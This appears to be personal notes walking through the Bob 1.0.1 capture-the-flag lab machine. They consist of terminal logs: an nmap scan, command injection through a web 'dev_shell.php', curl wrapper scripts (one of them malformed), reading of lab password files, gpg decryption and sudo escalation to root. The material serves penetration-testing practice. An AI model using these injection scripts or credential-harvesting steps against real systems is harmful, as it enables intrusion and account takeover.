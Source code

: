 https://hackso.me/bob-1.0.1-walkthrough/
https://resources.infosecinstitute.com/topic/bob-1-0-1-ctf-walkthrough/

└─$ sudo nmap -sT -A  -Pn -n  -p- 192.168.110.11 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:36 CEST
Nmap scan report for 192.168.110.11
Host is up (0.00051s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 08:00:27:B4:F5:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.110.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds


http://192.168.110.11/dev_shell.php
grep '[a-zA-Z0-9]' /etc/passwd
root:x:0:0:root:/root:/bin/bash
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash 

more /etc/passwd
id|ls -al


#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="find $1 -ls"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '/<h5>/,/<\/div>/!d' \
| sed -r -e '1d' -e '$d' -e 's/^\s+//' \


#!/bin/bash

$CMD=$1
curl -s --data-urlencode "in_command=$CMD" /home/" http://192.168.110.11/dev_shell.php | sed '/<h5>/,/<\/div>/!d' | sed -r -e '1d' -e '$d' -e 's/^\s+//'


    


┌──(kali㉿kali)-[~/OSCP/boxes/Bob]
└─$ ./test.sh "id|ls /home"
bob
elliot
jc
seb


└─$ ./test.sh "id|more /home/bob/.old_passwordfile.html" 
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
::::::::::::::
/home/bob/.old_passwordfile.html
::::::::::::::
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>


seb@Milburg-High:/home/bob/Documents$ ls -al
total 20
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 18 bob bob 4096 Mar  8  2018 ..
-rw-r--r--  1 bob bob   91 Mar  5  2018 login.txt.gpg
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 Secret
-rw-r--r--  1 bob bob  300 Mar  4  2018 staff.txt

seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"


seb@Milburg-High:/home/bob/Documents$ cat staff.txt 
Seb:

Seems to like Elliot
Wants to do well at his job
Gave me a backdoored FTP to instal that apparently Elliot gave him

James:

Does nothing
Pretty Lazy
Doesn't give a shit about his job

Elliot:

Keeps to himself
Always needs to challenge everything I do
Keep an eye on him
Try and get him fired




elliot@Milburg-High:/home/bob/Documents$ gpg -d --passphrase HARPOCRATES --batch login.txt.gpg 
gpg: keybox '/home/elliot/.gnupg/pubring.kbx' created
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
elliot@Milburg-High:/home/bob/Documents$ su bob
Password: 
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High: Connection refused
[sudo] password for bob: 
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
bob@Milburg-High:~/Documents$ sudo id
sudo: unable to resolve host Milburg-High: Connection refused
uid=0(root) gid=0(root) groups=0(root)
bob@Milburg-High:~/Documents$ 
